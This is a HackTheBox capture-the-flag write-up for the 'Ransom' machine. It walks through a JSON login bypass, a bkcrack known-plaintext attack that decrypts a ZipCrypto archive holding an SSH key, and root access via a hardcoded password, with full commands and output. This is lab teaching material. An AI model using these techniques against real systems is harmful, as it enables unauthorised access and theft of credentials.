






# Ransom - HackTheBox




## 1. Enumeration

### Nmap Initial Scan

```
┌──(root💀kali)-[~/htb/unicode]
└─# nmap -sC -sV -oN nmap_init 10.129.227.93 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-08 07:24 EDT
Nmap scan report for 10.129.227.93
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title:  Admin - HTML5 Admin Template
|_Requested resource was http://10.129.227.93/login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.17 seconds

```







Here is the request and response of the webpage, let's add some json value and see the response and change the Content-Type: application/json.




It accepts json type. Now lets try to change the value to get successful login.




After changing the value to true, we get the response with Login Successful message.




Now we are logged in and got the user flag and some zip file.


```
┌──(root💀kali)-[~/htb/ransom]
└─# 7z l -slt uploaded-file-3422.zip                                                                                                                                                     1 ⨯

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs AMD Ryzen 5 5600H with Radeon Graphics          (A50F00),ASM,AES-NI)

Scanning the drive for archives:
1 file, 7735 bytes (8 KiB)

Listing archive: uploaded-file-3422.zip

--
Path = uploaded-file-3422.zip
Type = zip
Physical Size = 7735

----------
Path = .bash_logout
Folder = -
Size = 220
Packed Size = 170
Modified = 2020-02-25 08:03:22
Created = 
Accessed = 
Attributes = _ -rw-r--r--
Encrypted = +
Comment = 
CRC = 6CE3189B
Method = ZipCrypto Deflate
Host OS = Unix
Version = 20
Volume Index = 0

```

The encryption method used for this zip file is ZipCrypto which is vulnerable to plaintext attack. 

This file can be decrypted using bkcrack tool which is available on github - [GitHub - kimci86/bkcrack: Crack legacy zip encryption with Biham and Kocher&#39;s known plaintext attack.](https://github.com/kimci86/bkcrack)


```
┌──(root💀kali)-[~/htb/ransom/bkcrack-1.4.0-Linux]
└─# ls
bkcrack  example  license.txt  readme.md  tools  uploaded-file-3422.zip
                                                                                             

```

We have now installed bkcrack successfully. Let us see what is inside uploaded-file-3422.zip.

```
┌──(root💀kali)-[~/htb/ransom/bkcrack-1.4.0-Linux]
└─# ./bkcrack -L uploaded-file-3422.zip                                                    
bkcrack 1.4.0 - 2022-05-19
Archive: uploaded-file-3422.zip
Index Encryption Compression CRC32    Uncompressed  Packed size Name
----- ---------- ----------- -------- ------------ ------------ ----------------
    0 ZipCrypto  Deflate     6ce3189b          220          170 .bash_logout
    1 ZipCrypto  Deflate     ab254644         3771         1752 .bashrc
    2 ZipCrypto  Deflate     d1b22a87          807          404 .profile
    3 None       Store       00000000            0            0 .cache/
    4 ZipCrypto  Store       00000000            0           12 .cache/motd.legal-displayed
    5 ZipCrypto  Store       00000000            0           12 .sudo_as_admin_successful
    6 None       Store       00000000            0            0 .ssh/
    7 ZipCrypto  Deflate     38804579         2610         1990 .ssh/id_rsa
    8 ZipCrypto  Deflate     cb143c32          564          475 .ssh/authorized_keys
    9 ZipCrypto  Deflate     cb143c32          564          475 .ssh/id_rsa.pub
   10 ZipCrypto  Deflate     396b04b4         2009          581 .viminfo

```


### Guessing plaintext

To run the attack, we must guess at least 12 bytes of plaintext.
On average, the more plaintext we guess, the faster the attack will be.

Then we create a .bash_logout with exact bytes which is 220. Let's zip .bash_logout.

```
┌──(root💀kali)-[~/htb/ransom/bkcrack-1.4.0-Linux]
└─# zip bash_logout.zip .bash_logout 
  adding: .bash_logout (deflated 28%)
```


After running this command - 

```
7z l -slt uploaded-file-3422.zip 
```

We can ensure that the CRC checksum is same for both .bash_logout files.


Let us now crack the file,

```
┌──(root💀kali)-[~/htb/ransom/bkcrack-1.4.0-Linux]
└─# ./bkcrack -C uploaded-file-3422.zip -c .bash_logout -P bash_logout.zip -p .bash_logout 
bkcrack 1.4.0 - 2022-05-19
[11:14:22] Z reduction using 150 bytes of known plaintext
100.0 % (150 / 150)
[11:14:22] Attack on 54614 Z values at index 7
Keys: 7b549874 ebc25ec5 7e465e18
4.2 % (2308 / 54614)
[11:14:25] Keys
7b549874 ebc25ec5 7e465e18
                            
```

Got the key.


We assume that the same keys were used for all the files in the zip file.
We can create a new encrypted archive based on `uploaded-file-3422.zip`, but with a new password, `pass` in this example.

```
┌──(root💀kali)-[~/htb/ransom/bkcrack-1.4.0-Linux]
└─# ./bkcrack -C uploaded-file-3422.zip -k 7b549874 ebc25ec5 7e465e18 -U new_pass.zip pass
bkcrack 1.4.0 - 2022-05-19
[11:18:21] Writing unlocked archive new_pass.zip with password "pass"
100.0 % (9 / 9)
Wrote unlocked archive.
```


Now we can unzip the files using our new password-

```
┌──(root💀kali)-[~/htb/ransom/bkcrack-1.4.0-Linux/unzip]
└─# unzip ../new_pass.zip 
Archive:  ../new_pass.zip
[../new_pass.zip] .bash_logout password: 
  inflating: .bash_logout            
  inflating: .bashrc                 
  inflating: .profile                
   creating: .cache/
 extracting: .cache/motd.legal-displayed  
 extracting: .sudo_as_admin_successful  
   creating: .ssh/
  inflating: .ssh/id_rsa             
  inflating: .ssh/authorized_keys    
  inflating: .ssh/id_rsa.pub         
  inflating: .viminfo   
```

Got the private ssh key. Lets login with that key.


```
┌──(root💀kali)-[~/…/ransom/bkcrack-1.4.0-Linux/unzip/.ssh]
└─# cat id_rsa.pub                                                                     130 ⨯
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDrDTHWkTw0RUfAyzj9U3Dh+ZwhOUvB4EewA+z6uSunsTo3YA0GV/j6EaOwNq6jdpNrb9T6tI+RpcNfA+icFj+6oRj8hOa2q1QPfbaej2uY4MvkVC+vGac1BQFs6gt0BkWM9JY7nYJ2y0SIibiLDDB7TwOx6gem4Br/35PW2sel8cESyR7JfGjuauZM/DehjJJGfqmeuZ2Yd2Umr4rAt0R4OEAcWpOX94Tp+JByPAT5m0CU557KyarNlW60vy79njr8DR8BljDtJ4n9BcOPtEn+7oYvcLVksgM4LB9XzdDiXzdpBcyi3+xhFznFKDYUf6NfAud2sEWae7iIsCYtmjx6Jr9Zi2MoUYqWXSal8o6bQDIDbyD8hApY5apdqLtaYMXpv+rMGQP5ZqoGd3izBM9yZEH8d9UQSSyym/te07GrCax63tb6lYgUoUPxVFCEN4RmzW1VuQGvxtfhu/rK5ofQPac8uaZskY3NWLoSF56BQqEG9waI4pCF5/Cq413N6/M= htb@ransom

```

We got the username, it's htb@ransom.


## 2. Privilege Escalation

```
htb@ransom:/var/www/html$ cd /etc/apache2/
htb@ransom:/etc/apache2$ ls
apache2.conf  conf-available  conf-enabled  envvars  magic  mods-available  mods-enabled  ports.conf  sites-available  sites-enabled
htb@ransom:/etc/apache2$ cd sites-enabled/
htb@ransom:/etc/apache2/sites-enabled$ ls
000-default.conf
htb@ransom:/etc/apache2/sites-enabled$ cat 000-default.conf 
<VirtualHost *:80>
	ServerAdmin webmaster@localhost
	DocumentRoot /srv/prod/public

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined
	    <Directory /srv/prod/public>
	       Options +FollowSymlinks
	       AllowOverride All
	       Require all granted
	    </Directory>

</VirtualHost>

```

Let's cd to /srv/prod/public


```
htb@ransom:/srv/prod$ cd routes/
htb@ransom:/srv/prod/routes$ ls
api.php  channels.php  console.php  web.php
htb@ransom:/srv/prod/routes$ cat api.php 
<?php

use Illuminate\Http\Request;
use Illuminate\Support\Facades\Route;
use App\Http\Controllers\AuthController;

/*
|--------------------------------------------------------------------------
| API Routes
|--------------------------------------------------------------------------
|
| Here is where you can register API routes for your application. These
| routes are loaded by the RouteServiceProvider within a group which
| is assigned the "api" middleware group. Enjoy building your API!
|
*/

//Route::middleware('auth:sanctum')->get('/user', function (Request $request) {
//    return $request->user();
//});

Route::get('/login', [AuthController::class, 'customLogin'])->name('apilogin');

```

The authentication file is in App\Http\Controllers\AuthController.

```
htb@ransom:/srv/prod/app$ cd Http/Controllers/
htb@ransom:/srv/prod/app/Http/Controllers$ ls
AuthController.php  Controller.php  TasksController.php
htb@ransom:/srv/prod/app/Http/Controllers$ cat AuthController.php 
<?php

namespace App\Http\Controllers;

use App\Models\User;
use Illuminate\Http\Request;
use App\Http\Requests\RegisterRequest;
use Illuminate\Support\Facades\Auth;
use Illuminate\Support\Facades\Hash;


class AuthController extends Controller
{
    /**
     * Display login page.
     * 
     * @return \Illuminate\Http\Response
     */
    public function show_login()
    {
        return view('auth.login');
    }


    /**
     * Handle account login
     * 
     */
    public function customLogin(Request $request)
    {
        $request->validate([
            'password' => 'required',
        ]);

        if ($request->get('password') == "UHC-March-Global-PW!") {
            session(['loggedin' => True]);
            return "Login Successful";
        }
  
        return "Invalid Password";
    }

}
```

We got the root password "UHC-March-Global-PW!".

```
htb@ransom:/srv/prod/app/Http/Controllers$ su root
Password: 
root@ransom:/srv/prod/app/Http/Controllers# cd /root
root@ransom:~# ls
root.txt
root@ransom:~# cat root.txt 
4d8a8cc15dedc09875b750787114c51c
root@ransom:~# 

```

Got the root flag.


